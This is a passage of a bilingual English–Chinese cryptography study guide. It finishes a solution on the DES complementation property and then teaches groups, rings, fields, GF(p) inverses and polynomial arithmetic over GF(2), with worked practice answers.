Step 3: by induction, if \((L_{i-1}, R_{i-1})\) is complemented, then the new right half computed from the complemented inputs is \(L_{i-1}' \oplus F(R_{i-1}, K_i) = (L_{i-1} \oplus F(R_{i-1}, K_i))' = R_i'\), and the new left half is \(R_{i-1}' = L_i'\). So all round states are complemented, and so is the output after \(IP^{-1}\): \(E(K', X') = Y'\).第 3 步：用归纳法，若 \((L_{i-1}, R_{i-1})\) 被取反，则由取反后的输入算出的新右半为 \(L_{i-1}' \oplus F(R_{i-1}, K_i) = (L_{i-1} \oplus F(R_{i-1}, K_i))' = R_i'\)，新左半为 \(R_{i-1}' = L_i'\)。因此所有轮的状态都被取反，经过 \(IP^{-1}\) 之后的输出也被取反：\(E(K', X') = Y'\)。
(b) Yes, it halves the work, by one bit. The attacker chooses a plaintext \(P\) and its complement \(P'\) and obtains both ciphertexts: \((P, C_1 = E(K_0, P))\) and \((P', C_2 = E(K_0, P'))\). For every candidate \(K\) in half of the key space he computes \(y = E(K, P)\) only once. If \(y = C_1\) then \(K_0 = K\); if \(y = C_2'\) then, by (a), \(E(K', P') = y' = C_2\), so \(K_0 = K'\). One encryption tests two keys, so about \(2^{55}\) encryptions suffice.(b) 会，它把工作量减半，即少了一个比特。攻击者选取一个明文 \(P\) 及其取反 \(P'\)，并得到两个密文：\((P, C_1 = E(K_0, P))\) 和 \((P', C_2 = E(K_0, P'))\)。对于密钥空间一半中的每个候选 \(K\)，他只需计算一次 \(y = E(K, P)\)。若 \(y = C_1\)，则 \(K_0 = K\)；若 \(y = C_2'\)，则由 (a) 得 \(E(K', P') = y' = C_2\)，因此 \(K_0 = K'\)。一次加密可以检验两个密钥，所以约 \(2^{55}\) 次加密就够了。
Result: complementation is a weakness of DES, but it only reduces the effective key length from 56 to 55 bits and needs chosen plaintexts.结论：取反是 DES 的一个弱点，但它只把有效密钥长度从 56 位减少到 55 位，而且需要选择明文。
思路：补码运算与置换可交换，XOR 抵消两次取反，因此 F 不变；穷举可只试一半密钥。
Chapter 5Finite Fields有限域Reading: Stallings (Crypto) Ch. 5
Groups, Rings and Fields ★★群、环与域
Goal. Decide which structure (group, abelian group, ring, commutative ring, integral domain, field) a set with given operations is, and give the axiom that fails when it is not.目标。 判断给定运算的集合属于哪种结构（群、阿贝尔群、环、交换环、整环、域），若不属于，则给出不成立的公理。
Step 1: groups第 1 步：群
In words: a group = one operation under which you can combine, regroup and undo, with a "do nothing" element.用文字表述：群 = 一种运算，在它之下可以合并、重新组合、撤销，并且有一个“什么都不做”的元素。
A group（群）\(\{G,\cdot\}\) is a set \(G\) with one operation \(\cdot\) such that, for all \(a,b,c\) in \(G\), four axioms hold.群 \(\{G,\cdot\}\) 是一个集合 \(G\)，配有一种运算 \(\cdot\)，使得对 \(G\) 中的所有 \(a,b,c\)，以下四条公理成立。
- (A1) Closure: \(a\cdot b\) is in \(G\).(A1) 封闭性：\(a\cdot b\) 属于 \(G\)。
- (A2) Associativity: \(a\cdot(b\cdot c)=(a\cdot b)\cdot c\).（A2）结合律：\(a\cdot(b\cdot c)=(a\cdot b)\cdot c\)。
- (A3) Identity: some element \(e\) satisfies \(a\cdot e=e\cdot a=a\).(A3) 单位元：存在某个元素 \(e\) 满足 \(a\cdot e=e\cdot a=a\)。
- (A4) Inverse: every \(a\) has an element \(a'\) with \(a\cdot a'=a'\cdot a=e\).(A4) 逆元：每个 \(a\) 都有一个元素 \(a'\) 满足 \(a\cdot a'=a'\cdot a=e\)。
A group is abelian（阿贝尔群）if also (A5) \(a\cdot b=b\cdot a\). It is finite（有限群）if it has finitely many elements, and their number is its order（阶）. A group is cyclic（循环群）if all its elements are powers of one generator（生成元）\(a\); a cyclic group is always abelian. For addition the identity is \(0\) and the inverse of \(a\) is \(-a\).若还满足 (A5) \(a\cdot b=b\cdot a\)，则群是阿贝尔群。若群中元素个数有限，则称它为有限群，元素个数称为它的阶。若群的所有元素都是某一个生成元 \(a\) 的幂，则称它为循环群；循环群总是阿贝尔群。对于加法，单位元是 \(0\)，\(a\) 的逆元是 \(-a\)。
Example: the whole numbers under addition form an infinite cyclic group generated by \(1\). The permutations of three symbols under composition form a group that is not abelian: \(\{3,2,1\}\cdot\{1,3,2\}=\{2,3,1\}\), but \(\{1,3,2\}\cdot\{3,2,1\}=\{3,1,2\}\).例如，整数在加法下构成由 \(1\) 生成的无限循环群。三个符号的置换在复合运算下构成一个非阿贝尔群：\(\{3,2,1\}\cdot\{1,3,2\}=\{2,3,1\}\)，但 \(\{1,3,2\}\cdot\{3,2,1\}=\{3,1,2\}\)。
Step 2: rings, integral domains and fields第 2 步：环、整环和域
In words: ring = you can add, subtract and multiply; field = you can also divide by every nonzero element.用文字表述：环 = 可以做加、减、乘；域 = 在此基础上还可以除以每个非零元。
A ring（环）\(\{R,+,\times\}\) is an abelian group under addition (A1–A5) with a multiplication that satisfies three more axioms.环 \(\{R,+,\times\}\) 是在加法下的阿贝尔群（A1–A5），其上的乘法还满足另外三条公理。
- (M1) Closure: \(ab\) is in \(R\).(M1) 封闭性：\(ab\) 属于 \(R\)。
- (M2) Associativity: \(a(bc)=(ab)c\).（M2）乘法结合律：\(a(bc)=(ab)c\)。
- (M3) Distributive laws: \(a(b+c)=ab+ac\) and \((a+b)c=ac+bc\).（M3）分配律：\(a(b+c)=ab+ac\) 与 \((a+b)c=ac+bc\)。
Four further axioms give the next structures.再加上四条公理，就得到下一级结构。
- (M4) Commutativity \(ab=ba\) makes it a commutative ring（交换环）.(M4) 交换律 \(ab=ba\)，使它成为交换环。
- (M5) A multiplicative identity \(1\) and (M6) no zero divisors（零因子）make it an integral domain（整环）. No zero divisors means that \(ab=0\) forces \(a=0\) or \(b=0\).(M5) 乘法单位元 \(1\) 与 (M6) 没有零因子，使它成为整环。没有零因子意味着 \(ab=0\) 必然推出 \(a=0\) 或 \(b=0\)。
- (M7) A multiplicative inverse（乘法逆元）\(a^{-1}\) with \(a\,a^{-1}=1\) for every \(a\ne0\) makes it a field（域）. Division is then \(a/b=a\,b^{-1}\).(M7) 每个 \(a\ne0\) 都有乘法逆元 \(a^{-1}\)，满足 \(a\,a^{-1}=1\)，使它成为域。此时除法为 \(a/b=a\,b^{-1}\)。
| Structure结构 | Axioms公理 | Example示例 | Not the next structure because不是下一结构的原因 |
|---|---|---|---|
| Group群 | A1–A4 | \(S_n\) | not abelian for \(n>2\) |
| Abelian group阿贝尔群 | A1–A5 | \((\mathbb Z,+)\) | only one operation只有一种运算 |
| Ring环 | A1–A5, M1–M3 | \(n\times n\) real matrices | \(AB\ne BA\) in general |
| Commutative ring交换环 | + M4 | even integers; \(\mathbb Z_6\) | even integers have no \(1\); \(2\cdot3=0\) in \(\mathbb Z_6\)偶整数没有 \(1\)；\(2\cdot3=0\) 在 \(\mathbb Z_6\) 中 |
| Integral domain整环 | + M5, M6 | \(\mathbb Z\) | only \(\pm1\) have inverses |
| Field字段 | + M7 | \(\mathbb Q\), \(\mathbb R\), \(\mathbb C\), \(\mathbb Z_p\) | – |


In the table, \(A\) and \(B\) stand for two real \(n\times n\) matrices. Their product depends on the order, so matrices form a ring that is not commutative.表中，\(A\) 和 \(B\) 表示两个实 \(n\times n\) 矩阵。它们的乘积与相乘的次序有关，因此矩阵构成一个不满足交换律的环。
Zero divisors are the usual reason why a ring is not a field. In \(\mathbb Z_8\) we have \(2\cdot4\equiv0\), although neither factor is \(0\). A zero divisor has no inverse: if \(a^{-1}\) existed, then \(ab=0\) would give \(b=a^{-1}ab=0\). So \(\mathbb Z_8\) is a commutative ring but not a field.零因子通常是环不是域的原因。在 \(\mathbb Z_8\) 中有 \(2\cdot4\equiv0\)，尽管两个因子都不是 \(0\)。零因子没有逆元：若 \(a^{-1}\) 存在，那么 \(ab=0\) 就会得到 \(b=a^{-1}ab=0\)。因此 \(\mathbb Z_8\) 是交换环，但不是域。
Practice练习
Q1. (Classification) Give the strongest structure (group, abelian group, ring, commutative ring, integral domain, field) for each, with a reason: (a) \((\mathbb Z_6,+)\); (b) \((\mathbb Z_6,+,\times)\); (c) the even integers under \(+\) and \(\times\); (d) \(2\times2\) real matrices under \(+\) and \(\times\); (e) \((\mathbb Z_7,+,\times)\).Q1.（分类）对以下每个例子，给出最强的结构（群、阿贝尔群、环、交换环、整环、域），并说明理由：（a）\((\mathbb Z_6,+)\)；（b）\((\mathbb Z_6,+,\times)\)；（c）偶整数在 \(+\) 与 \(\times\) 运算下；（d）\(2\times2\) 上的实矩阵，在 \(+\) 与 \(\times\) 运算下；（e）\((\mathbb Z_7,+,\times)\)。
Answer
(a) Abelian group (cyclic, generator \(1\)). (b) Commutative ring with identity, not an integral domain, because \(2\cdot3\equiv0\). (c) Commutative ring; there is no multiplicative identity (\(1\) is odd), so not an integral domain. (d) Ring with identity \(I\), not commutative (\(AB\ne BA\) in general). (e) Field, because \(7\) is prime.（a）阿贝尔群（循环群，生成元为 \(1\)）。（b）带单位元的交换环，但不是整环，因为 \(2\cdot3\equiv0\)。（c）交换环；它没有乘法单位元（\(1\) 为奇数），因此不是整环。（d）带单位元 \(I\) 的环，但不是交换环（一般地 \(AB\ne BA\)）。（e）域，因为 \(7\) 为素数。
Q2. (Group test) Do the residue classes mod 3 form a group (a) under modular addition, (b) under modular multiplication?Q2.（群的判定）模 3 的剩余类在以下运算下是否构成群：（a）模加法；（b）模乘法？
Answer
(a) Yes. Addition mod 3 is closed and associative, the identity is \(0\), and the inverses are \(-1\equiv2\) and \(-2\equiv1\). The group is abelian and cyclic: \(1,\ 1+1=2,\ 1+1+1=0\). (b) No: \(0\) has no inverse (\(0\cdot x=0\ne1\)). The nonzero classes \(\{1,2\}\) do form a group, since \(2\cdot2=4\equiv1\).（a）是。模 3 加法封闭且满足结合律，单位元为 \(0\)，逆元分别为 \(-1\equiv2\) 与 \(-2\equiv1\)。该群是阿贝尔的，并且是循环的：\(1,\ 1+1=2,\ 1+1+1=0\)。（b）否：\(0\) 没有逆元（\(0\cdot x=0\ne1\)）。非零剩余类 \(\{1,2\}\) 确实构成群，因为 \(2\cdot2=4\equiv1\)。
易错：模乘下“整个 \(\mathbb Z_3\)”不是群，只有去掉 0 之后的非零元素才是。
The Finite Field GF(p) ★★★有限域 GF(p)
Goal. Build the addition and multiplication tables of a small \(\mathrm{GF}(p)\), decide which elements have inverses, find an inverse with the extended Euclidean algorithm and divide.目标。 构造一个小的 \(\mathrm{GF}(p)\) 的加法表和乘法表，判断哪些元素有逆元，用扩展欧几里得算法求逆元，并做除法。
Step 1: what GF(p) is第 1 步：什么是 GF(p)
In words: GF(p) = the numbers 0 to p−1 with plus and times mod p, where p is prime, so that division by every nonzero number works.用文字表述：GF(p) = 0 到 p−1 这些数，按模 p 做加法和乘法，其中 p 为素数，因而对每个非零数都能做除法。
A finite field has \(p^n\) elements for a prime \(p\) and a whole number \(n\ge1\). It is called a Galois field（伽罗瓦域）and is written \(\mathrm{GF}(p^n)\). The case \(n=1\) is \(\mathrm{GF}(p)\): the set \(\mathbb Z_p\) with addition and multiplication mod \(p\). The case \(n>1\) is different and is treated in Section 5.4.有限域有 \(p^n\) 个元素，其中 \(p\) 为素数，\(n\ge1\) 为正整数。它称为伽罗瓦域，记作 \(\mathrm{GF}(p^n)\)。当 \(n=1\) 时，即 \(\mathrm{GF}(p)\)：集合 \(\mathbb Z_p\) 配以按模 \(p\) 的加法和乘法。\(n>1\) 的情形不同，见第 5.4 节。
The ring \(\mathbb Z_n\) is a field exactly when \(n\) is prime. The reason is the inverse rule.环 \(\mathbb Z_n\) 是域，恰好当 \(n\) 为素数时成立。原因在于逆元规则。
- A number \(w\) in \(\mathbb Z_n\) has a multiplicative inverse iff \(\gcd(w,n)=1\) (Section 3.2).\(\mathbb Z_n\) 中的数 \(w\) 有乘法逆元，当且仅当 \(\gcd(w,n)=1\)（见第 3.2 节）。
- If \(n=p\) is prime, every nonzero \(w\) is smaller than \(p\) and so coprime to it. Every nonzero \(w\) is invertible.若 \(n=p\) 为素数，则每个非零 \(w\) 都小于 \(p\)，因而与它互素。每个非零 \(w\) 都可逆。
Example: in \(\mathbb Z_8\) only \(1,3,5,7\) are invertible, and each is its own inverse. The numbers \(2,4,6\) share the factor \(2\) with \(8\). In \(\mathrm{GF}(7)\) every nonzero element is invertible.例如，在 \(\mathbb Z_8\) 中只有 \(1,3,5,7\) 可逆，并且每个都是自己的逆元。数 \(2,4,6\) 与 \(8\) 有公因子 \(2\)。在 \(\mathrm{GF}(7)\) 中，每个非零元都可逆。
| \(w\) | 1 | 2 | 3 | 4 | 5 | 6 |
|---|---|---|---|---|---|---|
| \(-w\) | 6 | 5 | 4 | 3 | 2 | 1 |
| \(w^{-1}\) | 1 | 4 | 5 | 2 | 3 | 6 |
How to read it: the row \(-w\) gives the additive inverse (\(w+(-w)\equiv0\)), and the row \(w^{-1}\) gives the multiplicative inverse (\(w\,w^{-1}\equiv1\)). Check: \(3\cdot5=15\equiv1\pmod 7\). Division is multiplication by the inverse: in \(\mathrm{GF}(7)\), \(5/3=5\cdot5=25\equiv4\).阅读方法：行 \(-w\) 给出加法逆元（\(w+(-w)\equiv0\)），行 \(w^{-1}\) 给出乘法逆元（\(w\,w^{-1}\equiv1\)）。验算：\(3\cdot5=15\equiv1\pmod 7\)。除法就是乘以逆元：在 \(\mathrm{GF}(7)\) 中，\(5/3=5\cdot5=25\equiv4\)。
\(\mathrm{GF}(2)\) is the smallest field. Addition is XOR, multiplication is AND, and \(-1=1^{-1}=1\).\(\mathrm{GF}(2)\) 是最小的域。加法是 XOR，乘法是 AND，并且 \(-1=1^{-1}=1\)。
The prime property gives the cancellation law（消去律）: \(ab\equiv ac\pmod p\) with \(a\ne0\) implies \(b\equiv c\). It fails in \(\mathbb Z_8\), where \(2\cdot1\equiv2\cdot5\equiv2\) although \(1\ne5\).素数的性质给出消去律：由 \(ab\equiv ac\pmod p\) 且 \(a\ne0\) 可推出 \(b\equiv c\)。在 \(\mathbb Z_8\) 中消去律不成立，此时 \(2\cdot1\equiv2\cdot5\equiv2\)，尽管 \(1\ne5\)。
Step 2: inverses by the extended Euclidean algorithm第 2 步：用扩展欧几里得算法求逆元
In words: run Euclid's algorithm on p and b, and keep track of one coefficient; the coefficient at the step where the remainder is 1 is the inverse.用文字表述：对 p 和 b 运行欧几里得算法，并跟踪一个系数；余数为 1 那一步的系数就是逆元。
A table works only for a small \(p\). For a large \(p\), use the extended Euclidean algorithm（扩展欧几里得算法）, which Section 3.2 explains. Here it is used as a recipe.表格只适用于较小的 \(p\)。对于较大的 \(p\)，应使用扩展欧几里得算法，第 3.2 节有解释。这里把它当作一套步骤来用。
How to do it by hand: 1. Write the two start rows. 2. In each row divide the remainder two rows up by the remainder one row up. 3. Compute the new remainder and the new \(y_i\). 4. Stop when the remainder is \(1\). 5. Read the inverse from the last \(y_i\), and add the modulus if it is negative. 6. Check by multiplying.手工做法：1. 写出两条起始行。2. 在每一行中，用前两行的余数除以前一行的余数。3. 算出新的余数和新的 \(y_i\) 值。4. 当余数为 \(1\) 时停止。5. 从最后一个 \(y_i\) 读出逆元；若为负，则加上模数。6. 用乘法验算。
Practice练习
Q1. (Table) Build the tables of \(\mathrm{GF}(5)\): multiplication, additive inverses and multiplicative inverses.Q1.（表格）作出 \(\mathrm{GF}(5)\) 的以下各表：乘法表、加法逆元表与乘法逆元表。
Answer
Addition is the table of \((a+b)\bmod5\). Multiplication (rows and columns \(1\)–\(4\); the \(0\) row and column are all \(0\)):加法表即 \((a+b)\bmod5\) 的加法表。乘法表（行与列为 \(1\)–\(4\)；\(0\) 所在的行与列全为 \(0\)）：
| \(\times\) | 1 | 2 | 3 | 4 |
|---|---|---|---|---|
| 1 | 1 | 2 | 3 | 4 |
| 2 | 2 | 4 | 1 | 3 |
| 3 | 3 | 1 | 4 | 2 |
| 4 | 4 | 3 | 2 | 1 |
| \(w\) | 1 | 2 | 3 | 4 |
|---|---|---|---|---|
| \(-w\) | 4 | 3 | 2 | 1 |
| \(w^{-1}\) | 1 | 3 | 2 | 4 |
Every row of the multiplication table is a permutation of \(1,2,3,4\), so each nonzero \(w\) has an inverse (the column holding the \(1\)).乘法表的每一行都是 \(1,2,3,4\) 的一个置换，因此每个非零 \(w\) 都有逆元（逆元即乘积为 \(1\) 所在的那一列）。
Q2. (Calculation) Find \(17^{-1}\) in \(\mathrm{GF}(31)\) with the extended Euclidean algorithm and compute \(4/17\).Q2.（计算）用扩展欧几里得算法在 \(\mathrm{GF}(31)\) 中求 \(17^{-1}\)，并计算 \(4/17\)。
Answer
| \(i\) | \(q_i\) | \(r_i\) | \(y_i\) |
|---|---|---|---|
| \(-1\) | 31 | 0 | |
| 0 | 17 | 1 | |
| 1 | 1 | 14 | \(-1\) |
| 2 | 1 | 3 | 2 |
| 3 | 4 | 2 | \(-9\) |
| 4 | 1 | 1 | 11 |
So \(17^{-1}=11\) (check: \(17\cdot11=187=6\cdot31+1\)). Then \(4/17=4\cdot11=44\equiv13\) (check: \(17\cdot13=221=7\cdot31+4\)).因此 \(17^{-1}=11\)（验证：\(17\cdot11=187=6\cdot31+1\)）。于是 \(4/17=4\cdot11=44\equiv13\)（验证：\(17\cdot13=221=7\cdot31+4\)）。
思路：每步 \(y_i=y_{i-2}-q_iy_{i-1}\)，余数变成 1 时的 \(y\) 就是逆元；为负数时加模数。
Q3. (Beyond the text) Find the invertible elements of \(\mathbb Z_{12}\) and of \(\mathbb Z_9\). How many are there, and what do the counts say about the field property?Q3.（教材之外）求出 \(\mathbb Z_{12}\) 与 \(\mathbb Z_9\) 中的可逆元。它们各有多少个？这些计数说明了什么关于域的性质？
Answer
\(w\) is invertible iff \(\gcd(w,n)=1\). In \(\mathbb Z_{12}\): \(\{1,5,7,11\}\), each its own inverse (\(5\cdot5=25\), \(7\cdot7=49\), \(11\cdot11=121\), all \(\equiv1\)). In \(\mathbb Z_9\): \(\{1,2,4,5,7,8\}\) with \(2^{-1}=5\), \(4^{-1}=7\), \(8^{-1}=8\). The number of invertible elements is Euler's \(\varphi(n)\): 4 and 6. A field needs all \(n-1\) nonzero elements invertible, i.e. \(\varphi(n)=n-1\), which holds exactly when \(n\) is prime. Neither ring qualifies; the zero divisors \(3\cdot4\equiv0\) in \(\mathbb Z_{12}\) and \(3\cdot6\equiv0\) in \(\mathbb Z_9\) show it directly.\(w\) 可逆，当且仅当 \(\gcd(w,n)=1\)。在 \(\mathbb Z_{12}\) 中：\(\{1,5,7,11\}\)，每个元素都是自己的逆元（\(5\cdot5=25\)、\(7\cdot7=49\)、\(11\cdot11=121\)，全部 \(\equiv1\)）。在 \(\mathbb Z_9\) 中：\(\{1,2,4,5,7,8\}\)，其中 \(2^{-1}=5\)、\(4^{-1}=7\)、\(8^{-1}=8\)。可逆元的个数即欧拉函数 \(\varphi(n)\) 的值，分别为 4 与 6。域要求全部 \(n-1\) 个非零元素都可逆，即 \(\varphi(n)=n-1\)，而这恰好当 \(n\) 为素数时成立。两个环都不满足这一要求；\(\mathbb Z_{12}\) 中的零因子 \(3\cdot4\equiv0\)，以及 \(\mathbb Z_9\) 中的零因子 \(3\cdot6\equiv0\)，直接说明了这一点。
Polynomial Arithmetic ★★★多项式运算
Goal. Add, multiply and divide polynomials whose coefficients are mod \(p\), decide whether a polynomial over \(\mathrm{GF}(2)\) is irreducible, and compute a gcd of polynomials.目标。 对系数按模 \(p\) 的多项式做加法、乘法和除法，判断 \(\mathrm{GF}(2)\) 上的多项式是否不可约，并计算多项式的最大公因式。
Step 1: three kinds of polynomial arithmetic第 1 步：三类多项式运算
In words: the same expression is handled in three ways, depending on what happens to the coefficients and whether the result is reduced.用文字表述：同一个式子可以有三种处理方式，取决于系数如何变化，以及结果是否要化简。
| Kind类型 | Coefficients系数 | Reduction约化 | Result结果 |
|---|---|---|---|
| Ordinary polynomial arithmetic普通多项式运算 | from a set such as \(\mathbb Z\) or \(\mathbb R\), usual algebra取自 \(\mathbb Z\) 或 \(\mathbb R\) 等集合，使用普通代数 | none无 | infinite polynomial ring无限多项式环 |
| Coefficients in \(\mathbb Z_p\) | arithmetic on coefficients mod \(p\) | none无 | polynomial ring over \(\mathrm{GF}(p)\), division with remainder\(\mathrm{GF}(p)\) 上的多项式环，可做带余除法 |
| Modular polynomial arithmetic模多项式运算 | coefficients mod \(p\) | whole polynomial reduced mod an irreducible \(m(x)\) of degree \(n\)整个多项式模次数为 \(n\) 的不可约多项式 \(m(x)\) 约化 | the field \(\mathrm{GF}(p^n)\) |
The operator "mod" acts at two levels. On the coefficients the modulus is the prime \(p\): over \(\mathbb Z_3\), \(2x+2x=4x\equiv x\). On the whole polynomial the modulus is a polynomial: over \(\mathrm{GF}(2)\), \(x^3\bmod(x^3+x+1)=x+1\).运算符“mod”作用于两个层次。在系数上，模数是素数 \(p\)：即在 \(\mathbb Z_3\) 上，\(2x+2x=4x\equiv x\)。在整个多项式上，模数是一个多项式：即在 \(\mathrm{GF}(2)\) 上，\(x^3\bmod(x^3+x+1)=x+1\)。
Step 2: ordinary arithmetic and division第 2 步：普通运算与除法
In words: add and subtract matching coefficients; multiply term by term; divide like long division of numbers, as long as leading coefficients can be divided.用文字表述：对应系数相加减；逐项相乘；像数的长除法那样做除法，只要首项系数可以相除。
The degree of a product is the sum of the degrees. Example over the integers with \(f=x^3+x^2+2\) and \(g=x^2-x+1\): \(f+g=x^3+2x^2-x+3\), \(f-g=x^3+x+1\) and \(f\cdot g=x^5+3x^2-2x+2\).乘积的次数等于各因式次数之和。例如在整数上取 \(f=x^3+x^2+2\) 和 \(g=x^2-x+1\)：得到 \(f+g=x^3+2x^2-x+3\)、\(f-g=x^3+x+1\) 和 \(f\cdot g=x^5+3x^2-2x+2\)。


Division needs coefficients in a field, because the leading coefficients are divided. Over the integers \(5x^2/3x\) has no answer, as it needs \(5/3\). Over \(\mathbb Z_7\) it equals \(4x\), since \(5\cdot3^{-1}=5\cdot5=25\equiv4\). The polynomials over a field form a polynomial ring（多项式环）, not a field: \(x\) has no inverse, because degrees add. Division is possible but leaves a remainder.做除法需要系数取自一个域，因为要用首项系数去相除。在整数上 \(5x^2/3x\) 没有结果，因为它需要 \(5/3\)。在 \(\mathbb Z_7\) 上，它等于 \(4x\)，因为 \(5\cdot3^{-1}=5\cdot5=25\equiv4\)。域上的多项式构成一个多项式环，而不是域：\(x\) 没有逆元，因为次数只会相加。除法可以做，但会留下余式。
How to do it by hand: 1. Divide the leading term of the dividend by the leading term of the divisor. 2. Write it into the quotient. 3. Subtract that term times the divisor. 4. Repeat until the degree of what is left is below \(\deg g\).手工做法：1. 用被除式的首项除以除式的首项。2. 把结果写入商中。3. 从被除式中减去该项乘以除式的结果。4. 重复，直到剩下部分的次数低于 \(\deg g\)。
Step 3: polynomials over GF(2) and irreducibility第 3 步：GF(2) 上的多项式与不可约性
In words: over GF(2) plus equals minus, both are XOR, and a polynomial is irreducible when it has no factor of lower degree.用文字表述：在 GF(2) 上加法等于减法，两者都是 XOR；多项式没有次数更低的因式时即为不可约。
In \(\mathrm{GF}(2)\), \(1+1=0\), so addition equals subtraction and there are no signs and no carries. To divide by hand, XOR a shifted copy of the divisor to cancel the leading term, again and again. Example with \(f=x^7+x^5+x^4+x^3+x+1\) and \(g=x^3+x+1\):在 \(\mathrm{GF}(2)\) 中，\(1+1=0\)，因此加法等于减法，没有正负号，也没有进位。手工做除法时，反复把除式的移位副本与被除式做 XOR，以消去首项。例如，取 \(f=x^7+x^5+x^4+x^3+x+1\) 和 \(g=x^3+x+1\)：
- \(f+g=f-g=x^7+x^5+x^4\) and \(f\cdot g=x^{10}+x^4+x^2+1\).\(f+g=f-g=x^7+x^5+x^4\) 与 \(f\cdot g=x^{10}+x^4+x^2+1\)。
- Division: subtract \(x^4g=x^7+x^5+x^4\), which leaves \(x^3+x+1=g\). Subtract \(g\) once more and nothing is left. So \(f/g=x^4+1\) with remainder \(0\), and \(g\) divides \(f\).做除法：减去 \(x^4g=x^7+x^5+x^4\)，剩下 \(x^3+x+1=g\)。再减去一次 \(g\)，便什么都不剩。因此商为 \(f/g=x^4+1\)，余式为 \(0\)，并且 \(g\) 整除 \(f\)。
A polynomial \(f\) over a field is irreducible（不可约的）, also called a prime polynomial, iff it is not a product of two polynomials over that field whose degrees are both at least \(1\) and below \(\deg f\). Over \(\mathrm{GF}(2)\), \(x^4+1=(x+1)(x^3+x^2+x+1)\) is reducible and \(x^3+x+1\) is irreducible.域上的多项式 \(f\) 是不可约的（也称为素多项式），当且仅当它不能写成该域上两个多项式的乘积，且这两个多项式的次数都不小于 \(1\)、且小于 \(\deg f\)。在 \(\mathrm{GF}(2)\) 上，\(x^4+1=(x+1)(x^3+x^2+x+1)\) 是可约的，而 \(x^3+x+1\) 是不可约的。
How to test by hand over \(\mathrm{GF}(2)\):在 \(\mathrm{GF}(2)\) 上手工检验的方法：
- Degree 2 or 3: it is irreducible iff it has no root. Try \(f(0)\) and \(f(1)\). A reducible one would have a linear factor \(x\) or \(x+1\).次数为 2 或 3：当且仅当它没有根时不可约。试 \(f(0)\) 和 \(f(1)\)。若可约，则它必有一次因式 \(x\) 或 \(x+1\)。
- Degree 4: test the roots, and then also divide by the only irreducible quadratic \(x^2+x+1\). A quartic without roots can only split into two quadratics.次数为 4：检验根，然后还要用唯一的不可约二次式 \(x^2+x+1\) 去除。没有根的四次式只能分解为两个二次式。
For \(x^3+x+1\): \(f(0)=1\) and \(f(1)=1+1+1=1\), so no root, and it is irreducible.对于 \(x^3+x+1\)：\(f(0)=1\) 且 \(f(1)=1+1+1=1\)，因此没有根，它是不可约的。
Step 4: greatest common divisor第 4 步：最大公因式
In words: the gcd of two polynomials is found like the gcd of two numbers: divide, keep the remainder, repeat; the last nonzero remainder is the gcd.用文字表述：两个多项式的最大公因式的求法与两个数的最大公约数相同：做除法，保留余式，重复；最后一个非零余式就是最大公因式。
The greatest common divisor（最大公约数）of \(a(x)\) and \(b(x)\) is the polynomial of greatest degree that divides both.最大公因式是能同时整除 \(a(x)\) 和 \(b(x)\) 的、次数最高的多项式。
Practice练习
Q1. (Calculation) Over \(\mathbb Z_{11}\) compute \((8x^2+3x+2)(5x^2+6)\).Q1.（计算）在 \(\mathbb Z_{11}\) 上计算 \((8x^2+3x+2)(5x^2+6)\)。
Answer
Ordinary product: \(40x^4+15x^3+(48+10)x^2+18x+12=40x^4+15x^3+58x^2+18x+12\). Reduce each coefficient mod 11: \(40=3\cdot11+7\), \(15\equiv4\), \(58=5\cdot11+3\), \(18\equiv7\), \(12\equiv1\). Result: \(7x^4+4x^3+3x^2+7x+1\).普通乘积：\(40x^4+15x^3+(48+10)x^2+18x+12=40x^4+15x^3+58x^2+18x+12\)。将各系数模 11 约化：\(40=3\cdot11+7\)，\(15\equiv4\)，\(58=5\cdot11+3\)，\(18\equiv7\)，\(12\equiv1\)。结果为 \(7x^4+4x^3+3x^2+7x+1\)。
Q2. (Irreducibility) Decide which are reducible over \(\mathrm{GF}(2)\): (a) \(x^2+1\); (b) \(x^2+x+1\); (c) \(x^4+x+1\).Q2.（不可约性）判断以下多项式在 \(\mathrm{GF}(2)\) 上哪些是可约的：（a）\(x^2+1\)；（b）\(x^2+x+1\)；（c）\(x^4+x+1\)。
Answer
(a) Reducible: \(x^2+1=(x+1)^2\) (it has the root \(1\)). (b) Irreducible: degree 2 and no root, since \(f(0)=f(1)=1\). (c) Irreducible: no root (\(f(0)=f(1)=1\)), and division by \(x^2+x+1\) leaves remainder \(1\ne0\) (use \(x^2\equiv x+1\), so \(x^4\equiv x\)), so there is no quadratic factor either.（a）可约：\(x^2+1=(x+1)^2\)（它有根 \(1\)）。（b）不可约：次数为 2 且无根，因为 \(f(0)=f(1)=1\)。（c）不可约：无根（\(f(0)=f(1)=1\)），并且除以 \(x^2+x+1\) 的余式为 \(1\ne0\)（取 \(x^2\equiv x+1\)，故 \(x^4\equiv x\)），因此也没有二次因子。
思路：2、3 次多项式只看有没有根；4 次再试二次不可约因子 \(x^2+x+1\)。
